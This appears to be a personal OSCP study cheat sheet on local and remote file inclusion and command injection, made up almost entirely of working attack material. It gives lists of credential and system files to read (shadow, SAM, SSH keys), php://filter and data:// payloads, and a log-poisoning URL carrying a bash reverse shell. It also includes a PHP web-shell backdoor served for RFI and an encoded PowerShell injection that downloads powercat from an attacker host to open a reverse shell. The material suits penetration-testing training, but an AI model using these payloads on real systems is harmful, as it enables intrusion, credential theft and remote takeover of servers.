

LFI / RFI
ON OSCP, if you are able to find LFI anywhere, hunt down the SSH keys first
Links
Local File Inclusion:
- Check if you can convert LFI to RFI
- Try adding %00 to bypass the added extension on the server side. (Works on PHP < 5.3)
- You can even add? to bypass it.
- If you can't read php files: php://filter/convert.base64-encode/resource=index
- Try reading important files from the system other than passwd. Enumeration might help in determining which files might be important. Maybe try checking the config files for the web app
WINDOWS FILES
c:/boot.ini
c:/inetpub/logs/logfiles
c:/inetpub/wwwroot/global.asa
c:/inetpub/wwwroot/index.asp
c:/inetpub/wwwroot/web.config
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system32/inetsrv/metabase.xml
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system volume information/wpsettings.dat
c:/system32/inetsrv/metabase.xml
c:/unattend.txt
c:/unattend.xml
c:/unattended.txt
c:/unattended.xml
c:/windows/repair/sam
c:/windows/repair/system
LINUX FILES
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]* (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
/proc/sched_debug
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/self/cwd/index.php
/proc/self/cwd/main.py
/home/$USER/.bash_history
/home/$USER/.ssh/id_rsa
/var/run/secrets/kubernetes.io/serviceaccount
/var/lib/mlocate/mlocate.db
/var/lib/mlocate.db
php://filter/convert.base64-encode/resource=/etc/passwd
php://filter/resource=/etc/passwd
LOG FILES
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/httpd/error_log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/vsftpd.log
/var/log/sshd.log
/var/log/mail
RFI
file=data:text/plain,hello world
file=data:text/plain,<?php echo shell_exec("dir") ?>
LFI and RFI Examples
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/a pache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
w/php wrapper:
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64encode/resource=admin.php
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"

Remote File Inclusion
//Simple PHP backdoor
<?php
if(isset($_REQUEST['cmd'])){
echo "<pre>"; $cmd = ($_REQUEST['cmd']);
system($cmd); echo "</pre>"; die;
?}>
Then:
python3 -m http.server 80
curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simplebackdoor.php&cmd=ls"
Command Injection
curl -X POST --data 'Archive=git' http://192.168.50.189:8000/archive
curl -X POST --data 'Archive=git%3Bipconfig' http://192.168.50.189:8000/archive
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.50.189:8000/archive
try system access with power cat:
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
python3 -m http.server 80
nc -nvlp 4444
*This encoded: ```
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell
```*
curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.119.3%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.119.3%20-p%204444%20-e%20powershell' http://192.168.50.189:8000/archive